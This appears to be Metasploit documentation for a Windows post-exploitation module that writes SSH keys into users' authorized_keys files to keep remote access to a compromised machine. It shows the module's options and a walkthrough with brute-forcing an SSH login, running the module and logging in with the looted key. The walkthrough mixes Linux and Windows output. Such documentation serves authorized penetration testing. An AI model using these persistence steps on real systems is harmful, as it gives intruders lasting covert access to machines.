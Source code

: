 This module will add an SSH key to a specified user (or all), to allow remote login on the victim via SSH at any time.

### Creating A Testing Environment

  This module has been tested against:

1. Windows 10, 1903

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use post/windows/manage/sshkey_persistence`
  4. Do: `set session #`
  5. Optional Do: `set USERNAME`
  6. Optional Do: `set SSHD_CONFIG`
  7. Do: `run`


## Options

### SSHD_CONFIG

  Location of the sshd_config file on the remote system.
  We use this to determine if the authorized_keys file location has changed on the system.
  If it hasn't, we default to .ssh/authorized_keys

### USERNAME

  If set, we only write our key to this user.  If not, we'll write to all users

### PUBKEY

  A public key to use.  If not provided, a pub/priv key pair is generated automatically

### ADMIN_KEY_FILE

  Location of public keys for Administrator level accounts

### ADMIN

  Add public keys for gaining access to Administrator level accounts

### EDIT_CONFIG

  Allow the module to edit the sshd_config to enable public key authentication

## Scenarios

Get initial access

    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'tiki:tiki' 'uid=1000(tiki) gid=1000(tiki) groups=1000(tiki),4(adm),24(cdrom),27(sudo),30(dip),
    46(plugdev),110(lxd),117(lpadmin),118(sambashare) Linux tikiwiki 4.4.0-21-generic
    #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.229:38886 -> 192.168.2.190:22) at 2016-06-19 09:52:48 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Use the post module to write the ssh key

    msf auxiliary(ssh_login) > use post/linux/manage/sshkey_persistence 
    msf post(sshkey_persistence) > set SESSION 1
    SESSION => 1
    msf post(sshkey_persistence) > set CREATESSHFOLDER true
    CreateSSHFolder => true    
    msf post(windows/manage/sshkey_persistence) > run
    
    [*] Checking SSH Permissions
    [*] Authorized Keys File: .ssh/authorized_keys
    [+] Storing new private key as /Users/dwelch/.msf4/loot/20200205161837_default_172.16.128.153_id_rsa_706898.txt
    [*] Adding key to C:\Users\Dean Welch\.ssh\authorized_keys
    [+] Key Added
    [*] Adding key to C:\Users\testAccount\.ssh\authorized_keys
    [+] Key Added
    [*] Post module execution completed

Verify our access works

    ssh -i /Users/dwelch/.msf4/loot/20200205153101_default_172.16.128.153_id_rsa_457054.txt testAccount@172.16.128.153
    
    Microsoft Windows [Version 10.0.18362.592]
    (c) 2019 Microsoft Corporation. All rights reserved.
    
    testaccount@DESKTOP-V8L6UUD C:\Users\testAccount>


